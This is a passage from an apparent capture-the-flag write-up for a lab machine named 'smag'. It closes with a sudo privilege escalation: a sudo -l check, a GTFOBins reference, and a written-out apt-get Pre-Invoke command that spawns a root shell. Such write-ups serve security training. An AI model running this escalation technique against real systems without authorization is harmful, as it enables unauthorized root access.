

Now you can view the user.txt file and upload it to the page.

Now the final step is to become root.

By running `sudo -l`, we can see that we have permissions for this binary.



The binary states that we can execute it as any user, without a password.

To exploit this binary, we can use the website <https://gtfobins.org>

Here are the steps to take advantage of these privileges and gain root access.



We will execute this command:

```console
jake@smag:~$ sudo /usr/bin/apt-get update -o APT::Update::Pre-Invoke::=/bin/bash
```



Congratulations! We are now root users; we can now view root.txt



<!--more-->
